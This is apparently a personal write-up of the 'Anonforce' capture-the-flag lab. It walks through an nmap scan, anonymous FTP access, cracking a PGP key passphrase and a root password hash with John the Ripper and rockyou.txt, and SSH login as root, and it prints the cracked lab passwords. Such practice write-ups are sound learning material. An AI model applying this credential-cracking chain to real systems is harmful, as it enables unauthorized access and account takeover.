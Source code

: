 # Anonforce  

boot2root machine for FIT and bsides guatemala CTF  

# Tasks  
Read user.txt and root.txt  

# nmap
## ip = 10.10.59.93  

```sh
nmap -sV -sC -v 10.10.59.93 | tee nmap.txt
```

```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 bin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 boot
| drwxr-xr-x 17 0 0
3700 Feb 08 07:18 dev
| drwxr-xr-x 85 0 0
4096 Aug 13 2019 etc
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 home
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx 1 0 0
33 Aug 11 2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x 19 0 0
4096 Aug 11 2019 lib
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 lib64
| drwx------ 2 0 0
16384 Aug 11 2019 lost+found
| drwxr-xr-x 4 0 0
4096 Aug 11 2019 media
| drwxr-xr-x 2 0 0
4096 Feb 26 2019 mnt
| drwxrwxrwx 2 1000 1000
4096 Aug 11 2019 notread [NSE: writeable]
| drwxr-xr-x 2 0 0
4096 Aug 11 2019 opt
| dr-xr-xr-x 94 0 0
0 Feb 08 07:18 proc
| drwx------ 3 0 0
4096 Aug 11 2019 root
| drwxr-xr-x 18 0 0
540 Feb 08 07:18 run
| drwxr-xr-x 2 0 0
12288 Aug 11 2019 sbin
| drwxr-xr-x 3 0 0
4096 Aug 11 2019 srv
| dr-xr-xr-x 13 0 0
0 Feb 08 07:18 sys
| drwxrwxrwt 9 0 0
4096 Feb 08 07:18 tmp [NSE: writeable]
| drwxr-xr-x 10 0 0
4096 Aug 11 2019 usr
| drwxr-xr-x 11 0 0
4096 Aug 11 2019 var
| lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
|_lrwxrwxrwx 1 0 0
30 Aug 11 2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
1/9| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
| 256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_ 256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Two ports are open  
- 21 = ftp  
- 22 = ssh  

ftp seems to lack log in credentials so will start with that one.  

# ftp_21
```sh
ftp anonymous@10.10.59.93
```

Used default credentials `anonymous:anonymous`
![[Pasted image 20241023205906.png]]
Enumerating i got the user flag .

![[Pasted image 20241023205925.png]]

# Privilege Escalation

![[Pasted image 20241023210111.png]]

- We can not view or write any thing on the root directory
- But there is a fishy directory with unique permissions.

```sh
cd notread
mget *
```
![[Pasted image 20241023210255.png]]
- one file is an image while the other has some guddies :)
![[Pasted image 20241023210402.png]]

Now we have 
- open port 22 = ssh
- id_rsa key

Lacking a valid user name .
run search_sploit to see if the ssh has an exploit
![[Pasted image 20241023210818.png]]

- Downloaded the exploit but was unable to use it.
- Did some research.

We got two files from ftp :
- backup.pgp  
- private.asc  

We have an encrypted `backup.pgp` file, and very likely a private key file that we can use to decrypt it.  
First, what we need to do is import the private key into our keyring (key management database) of the PGP application.  

```sh
gpg --import private.asc
```
![[Pasted image 20241023211242.png]]

We need to crack the passphrase in order to import it into the key ring.  
We can use `John the Ripper` password-cracking tool for this.  

```sh
 gpg2john private.asc > privatehash.txt
```

Now we can run john to crack the hash using the famous `rockyou.txt` dictionary.  

```sh
 john privatehash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20241023211321.png]]

Now that we have the passphrase for the private key, we can import it into the keyring and decrypt the backup.pgp file.  

passphrase = `xbox360`

## Commands 
```sh
gpg --import private.asc

gpg --decrypt backup.pgp
```
![[Pasted image 20241023211403.png]]
We will get a backup of the passwd file, that includes the password hash of root and melodias users.  
![[Pasted image 20241023211412.png]]

Now we crack the passwd file using john.
![[Pasted image 20241023211507.png]]
![[Pasted image 20241023211532.png]]

## Details  
  
- username = root  
- password = hikari  

```sh
 ssh root@10.10.59.93
 ```  
![[Pasted image 20241023211544.png]]
